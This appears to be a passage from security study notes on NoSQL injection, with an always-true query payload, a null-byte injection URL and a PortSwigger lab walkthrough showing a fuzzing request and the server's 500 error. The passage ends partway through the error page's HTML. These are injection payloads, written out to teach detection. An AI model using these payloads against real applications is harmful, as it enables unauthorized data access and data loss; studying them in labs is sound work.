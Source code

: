 ```
'||'1'=='1
```

!!! warning
    Take care when injecting a condition that always evaluates to true into a NoSQL query. Although this may be harmless in the initial context you're injecting into, it's common for applications to use data from a single request in multiple different queries. If an application uses it when updating or deleting data, for example, this can result in accidental data loss.

#### Null Character Injection

Try injecting a null character after the query:

```
https://insecure-website.com/product/lookup?category=fizzy'%00
```

??? example "PortSwigger NoSQL Injection Lab 1: Detecting NoSQL injection"

	### Lab 1: Detecting NoSQL injection
	
	```
	GET /filter?category=Pets'%22%60%7B%20%3B%24Foo%7D%20%24Foo%20%5CxYZ HTTP/1.1
	Host: 0a8c001604495d9180c60dd0006c004a.web-security-academy.net
	User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
	Accept-Language: en-US,en;q=0.5
	Accept-Encoding: gzip, deflate, br, zstd
	Connection: keep-alive
	Referer: https://0a8c001604495d9180c60dd0006c004a.web-security-academy.net/
	Cookie: session=d82ldTNqdPOXGQFfW3TXmFcwNInibcG3
	Upgrade-Insecure-Requests: 1
	Sec-Fetch-Dest: document
	Sec-Fetch-Mode: navigate
	Sec-Fetch-Site: same-origin
	Sec-Fetch-User: ?1
	X-PwnFox-Color: magenta
	Priority: u=0, i
	
	
	```
	
	This causes an internal server error
	
	```
	HTTP/1.1 500 Internal Server Error
	Content-Type: text/html; charset=utf-8
	X-Frame-Options: SAMEORIGIN
	Connection: close
	Content-Length: 2793
	
	<!DOCTYPE html>
	<html>
	
	<head>
	    <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
	    <link href=/resources/css/labs.css rel=stylesheet>
	    <title>Detecting NoSQL injection</title>
	</head>
	<script src="/resources/labheader/js/labHeader.js"></script>
	<div id="academyLabHeader">
	    <section class='academyLabBanner'>
	        <div class=container>
	            <div class=logo></div>
	            <div class=title-container>
	                <h2>Detecting NoSQL injection</h2>
	                <a id='lab-link' class='button' href='/'>Back to lab home</a>